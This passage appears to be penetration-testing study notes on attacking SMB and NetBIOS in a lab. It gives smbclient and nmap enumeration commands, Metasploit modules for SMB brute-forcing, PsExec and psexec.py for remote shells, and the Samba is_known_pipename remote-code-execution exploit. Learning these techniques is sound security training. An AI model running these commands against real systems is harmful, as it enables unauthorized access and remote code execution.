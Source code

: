 ## SMBClient
```
smbclient -L \\\\10.10.10.1\\ -U admin
smbclient \\\\10.10.10.1\\public -U admin
```

## Exploiting SMB with PsExec

PsExec is like Telnet but only works with the SMB protocol, returning a CLI on the target system.

### Using Metasploit
```
use auxiliary/scanner/smb/smb_login
```
Used for brute-forcing into the SMB protocol or simply to log in and generate a session to be used with other modules. PSExec is one of these modules that allows us to obtain a Meterpreter session.
```
use exploit/windows/smb/psexec
```
These are other modules to be used in enumeration of SMB Protocol.
```
search type:auxiliary name:smb_version
search type:auxiliary name:smb_enumusers
search type:auxiliary name:smb_enumshares
set showfiles true
search type:auxiliary name:smb_login
```

### Using Python
```
psexec.py Administrator@10.10.10.1 cmd.exe
```
With this command, we can obtain a CLI on the target system in a silent way than Metasploit because we are not uploading anything to the target machine.


## Linux Exploiting SAMBA

Samba v3.5.0 is vulnerable to remote code execution.
```
use exploit/linux/samba/is_known_pipename
```

## NetBIOS - p137,138,139

This service usually comes with SMB, but it is used as:
* Name Service (NetBIOS-NS): allows computer to register, unregistered and resolve names in a local network.
* Datagram service (NetBIOS-DGM): supports connectionless communication and broadcasting.
* Session Service (NetBIOS-SSN): supports connection-oriented communication for more reliable data transfers

### NBTScan
```
nbtscan 10.10.4.0/24 - scan local network for NetBIOS services
```
### Nmap
```
nmap -sU -p 137 demo.ine.local - scan the target searching for NetBIOS service
```
```
nmap -sU -sV -T4 —script nbstat -p 137 -Pn demo.ine.local
```
